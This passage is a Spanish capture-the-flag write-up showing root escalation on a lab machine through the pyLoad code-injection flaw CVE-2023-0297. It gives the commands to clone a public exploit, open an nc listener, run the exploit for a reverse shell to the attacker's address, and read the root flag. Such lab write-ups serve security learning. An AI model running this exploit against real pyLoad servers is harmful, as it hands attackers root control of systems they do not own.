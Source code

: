 {% embed url="https://www.incibe.es/index.php/incibe-cert/alerta-temprana/vulnerabilidades/cve-2023-0297" %}

{% hint style="danger" %}
Inyección de código en el repositorio de GitHub pyload/pyload anterior a 0.5.0b3.dev31.
{% endhint %}

Realizando una búsqueda por Internet, nos encontramos con el siguiente repositorio de GitHub en el cual nos proporcionan un exploit para aprovecharnos de la vulnerabilidad.

{% embed url="https://github.com/JacobEbben/CVE-2023-0297" %}

```bash
❯ git clone https://github.com/JacobEbben/CVE-2023-0297; cd CVE-2023-0297
Clonando en 'CVE-2023-0297'...
remote: Enumerating objects: 10, done.
remote: Counting objects: 100% (10/10), done.
remote: Compressing objects: 100% (10/10), done.
remote: Total 10 (delta 2), reused 0 (delta 0), pack-reused 0 (from 0)
Recibiendo objetos: 100% (10/10), 4.13 KiB | 1.38 MiB/s, listo.
Resolviendo deltas: 100% (2/2), listo.
```

Nos pondremos en escucha con `nc`para recibir la Reverse Shell.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

Realizaremos la ejecución del exploit sobre la URL vulnerable donde está el `pyLoad`, en este caso, utilizaremos [http://localhost:8000](http://localhost:8000) debido que hemos aplicado `Port-Forwarding` e indicaremos nuestra dirección y puerto de atacante donde recibiremos la Reverse Shell.

```bash
❯ python3 exploit.py -t http://localhost:8000 -I 10.10.16.3 -P 443
[SUCCESS] Running reverse shell. Check your listener!
```

Comprobaremos que hemos recibido la conexión al equipo victima y nos encontramos como `root` debido que el usuario que levantaba el servicio de `pyLoad` era él, por lo tanto, los comandos inyectados se ejecutarán como dicho usuario.&#x20;

Finalmente logramos obtener la flag **root.txt**.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.11.214] 50060
bash: cannot set terminal process group (1045): Inappropriate ioctl for device
bash: no job control in this shell
root@pc:~/.pyload/data# cat /root/root.txt
cat /root/root.txt
f12c72922d************************
```

### Analyzing how works payload
